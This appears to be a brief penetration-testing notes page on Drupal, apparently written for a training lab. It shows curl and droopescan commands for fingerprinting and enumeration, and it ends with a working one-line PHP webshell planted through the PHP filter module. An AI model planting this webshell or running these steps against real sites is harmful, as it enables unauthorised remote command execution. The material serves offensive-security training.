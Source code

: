 # drupal

## Overview

## Discovery

```shell
curl -s http://drupal.inlanefreight.local | grep Drupal
```

## Enumeration

Get versions

```shell
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

Use droopscan

```shell
droopescan scan drupal -u http://drupal.inlanefreight.local
```

### Webshell

In versions older than 8.0, it was possible to log in as an admin and enable the PHP filter module, which "Allows embedded PHP code/snippets to be evaluated." This allows to add a Basic page with a webshell like:

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```